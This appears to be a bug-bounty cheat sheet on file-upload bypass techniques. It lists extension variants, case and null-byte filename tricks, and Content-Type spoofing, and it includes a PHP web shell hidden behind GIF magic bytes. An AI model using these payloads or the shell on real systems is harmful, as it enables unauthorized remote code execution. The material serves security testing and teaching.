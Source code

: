
# Common Places to Test for File Uploads

* Profile picture uploads (e.g., avatars)
* Resume or document uploads (e.g., .pdf, .docx)
* Contact/support forms (with file attachments)
* E-commerce product image uploads
* CMS media sections (WordPress, Joomla, etc.)
* File managers or admin panels
* Assignment submission portals
* Blog/article submissions
* Public file sharing tools
* Admin functions (theme/plugin uploads)

  # Upload Bypass

## Rename the extension  

```
• PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

• PHP8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

• ASP: asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

• PERL: .pl, .pm, .cgi, .lib

• JSP: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action

• Coldfusion: .cfm, .cfml, .cfc, .dbm

• Flash: .swf

• Erlang Yaws Web Server: .yaws
```
# Bypass the extension checks

### Using some uppercase, Lowercase letters
```
pHp, .pHP5, .aSPx, .JAvA, .GrOOvY, .Ps1, .PY, .Go, .jSp ...
```
### Add special characters at the end
```
reverseshell.php%20
reverseshell.php%0a
reverseshell.php%00
reverseshell.php%0d%0a
reverseshell.php/
reverseshell.php.\
reverseshell.
reverseshell.php....
```
It also possible with previous bypass Upper, lower case bypasses

```
reverseshell.php5%0a
reverseshell.pHP5%0a
```
### Adding a valid extension before

* As example, if the png are the only authorized extension:
```
reverseshell.png.php
shell.jpeg.asp
shell.cv.php
shell.png.php
```
• It is also possible to use the the uppercase letters

```
reverseshell.png.Php5
reverseshell.png.pHTml
```
### Add a double extension and a junk data between them
* Some examples
```
reverseshell.php#.png
reverseshell.php%00.png
reverseshell.php\x00.png
reverseshell.php%0a.png
reverseshell.php%0d%0a.png
reverseshell.phpJunk123png
```
With lower, Upper cases technique

`
reverseshell.png%00pHp5 
`
### Add another layer of extensions
Some examples

```
file.png.jpg.php
```
Combine with Uppecase Lowercase technique

```
file.php%00.png%00.jpg
file.pHp%00.pNg%00.jPg
```
## Magic Byte Bypass Trick
Some servers check file types based on magic bytes (the first few bytes in a file) instead of the file extension. Attackers can exploit this by inserting a valid header of a safe file type (like GIF) at the beginning of a malicious file.

**Example:**
You create a shell.php file with this content:

```
GIF89a
<?php system($_GET['cmd']); ?>
```

* GIF89a is the magic header for a .gif image.
* Server sees it as an image (if poorly configured).
* But once executed, the PHP code still runs!

## Bypass Using Content-Type Header
Some applications rely on the Content-Type header (like image/png) to validate uploaded files. This can be bypassed easily because headers are controlled by the client, not the server.

### Bypass Techniques:
Manually modify Content-Type using tools like Burp Suite:
```
Content-Type: image/png
```
  ➤ While uploading a file like shell.php, just change the header to look like an image.

#### Use multipart/form-data with fake headers:
```
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg
```
  ➤ But the file is actually PHP code!

References:

https://portswigger.net/web-security/file-upload
https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
https://www.intigriti.com/researchers/blog/hacking-tools/insecure-file-uploads-a-complete-guide-to-finding-advanced-file-upload-vulnerabilities
https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
https://github.com/KathanP19/HowToHunt/blob/master/File_Upload/file_upload.md
https://www.yeswehack.com/learn-bug-bounty/file-upload-attacks-part-1


